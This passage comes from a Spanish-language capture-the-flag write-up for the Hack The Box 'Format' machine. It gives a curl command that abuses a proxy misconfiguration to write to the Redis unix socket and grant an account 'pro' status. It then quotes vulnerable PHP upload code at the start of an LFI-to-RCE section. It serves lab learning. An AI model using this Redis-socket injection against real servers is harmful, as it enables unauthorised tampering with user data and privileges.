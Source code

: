 ```php
        $redis = new Redis();
        $redis->connect('/var/run/redis/redis.sock');
```

Esta conectandose a Redis para establecer una conexion a travez del archivo ```/var/run/redis/redis.sock```.

Despues basicamente si el usuario tiene la propiedad "pro" establecida como "true", retorna "true", y si no, se retornará la cadena "false", y como tenemos un implementacion incorrecta en el proxy, entonces podemos acceder al archivo ```/var/run/redis/redis.sock``` para modificar los valores de la propiedad "pro", par convertir nuestra cuenta de usuario en pro, y lo podemos hacer de esta manera:

```curl -X HSET "http://microblog.htb/static/unix:%2Fvar%2Frun%2Fredis%2Fredis.sock:carta%20pro%20true%20a/b"```

Y nos debe de regresar algo como esto: 

![](/assets/img/htb-format/10_000.png)

Y ya somos pro

![](/assets/img/htb-format/11.png)

Y observa como ahora ya nos deja subir imagenes

## LFI to RCE

Si volvemos a revisar el codigo fuente para subir una imagen, vemos que si intentamos subir un php no va a funcionar por que se esta filtrando

```php
if (isset($_FILES['image']) && isset($_POST['id'])) {
    if(isPro() === "false") {
        print_r("Pro subscription required to upload images");
        header("Location: /edit?message=Pro subscription required&status=fail");
        exit();
    }
    $image = new Bulletproof\Image($_FILES);
    $image->setLocation(getcwd() . "/../uploads");
    $image->setSize(100, 3000000);
    $image->setMime(array('png'));

    if($image["image"]) {
        $upload = $image->upload();

        if($upload) {
            $upload_path = "/uploads/" . $upload->getName() . ".png";
            $html = "<div class = \"blog-image\"><img src = \"{$upload_path}\" /></div>";
            chdir(getcwd() . "/../content");
            $post_file = fopen("{$_POST['id']}", "w");
            fwrite($post_file, $html);
            fclose($post_file);
            $order_file = fopen("order.txt", "a");
            fwrite($order_file, $_POST['id'] . "\n");  
            fclose($order_file);
            header("Location: /edit?message=Image uploaded successfully&status=success");
        }
        else {
            header("Location: /edit?message=Image upload failed&status=fail");
        }
    }
}
```
